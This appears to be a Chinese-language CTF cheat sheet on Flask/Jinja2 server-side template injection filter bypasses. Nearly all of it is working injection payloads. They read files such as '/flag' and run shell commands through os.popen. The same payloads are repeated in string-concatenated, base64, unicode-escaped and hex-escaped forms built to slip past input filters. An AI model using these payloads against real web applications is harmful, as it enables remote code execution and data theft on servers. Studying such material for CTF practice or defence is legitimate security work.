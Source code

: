fix参考 Flask Demo 的fix路由



# 基础Bypass

- 字符串拼接

```python
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}

[].__class__.__base__.__subclasses__()[40]("/fl""ag").read() 

[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read() 

```

- 编码

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
即
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

```

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
即
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
即
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```



# Appendix

